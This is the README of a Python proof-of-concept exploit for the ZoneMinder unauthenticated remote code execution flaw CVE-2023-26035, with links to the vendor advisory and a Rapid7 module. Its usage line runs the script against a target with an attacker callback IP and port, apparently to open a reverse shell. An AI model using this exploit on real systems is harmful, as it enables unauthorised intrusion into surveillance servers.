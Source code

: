 # Zoneminder Unauthenticated RCE (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw in the described in CVE-2023-26035. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

The script needs the **target URL** with the** Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)
